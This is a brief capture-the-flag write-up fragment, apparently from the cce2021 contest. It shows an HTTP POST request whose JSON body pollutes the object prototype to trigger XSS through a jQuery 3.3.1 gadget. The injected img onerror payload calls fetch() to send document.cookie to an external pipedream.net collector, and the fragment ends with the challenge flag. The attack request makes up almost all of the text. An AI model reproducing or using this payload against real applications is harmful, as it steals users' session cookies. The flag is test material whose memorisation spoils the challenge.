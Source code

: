 ## GS 25

> Be triggered xss by jquery 3.3.1 gadget (Prototype Pollution)

```http
POST /saveGame HTTP/1.1
Host: 20.194.62.226:4423
Content-Length: 198
Accept: application/json, text/plain, */* Chrome/92.0.4515.107 Safari/537.36
Content-Type: application/json;charset=UTF-8
Cookie: fileName=01f032bb-3210-4dd3-9555-078cfa75196d
Connection: close

{"data":{"__proto__":{"__proto__":{"preventDefault":"x", "handleObj":"x","delegateTarget":"<img/src/onerror=fetch(`https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/f=`+document.cookie)>"}}}}
```

> FLAG : cce2021{5cd5185ef46ce86f6c33543f75752a559fa843ec91a1176144f1a15d468f318d}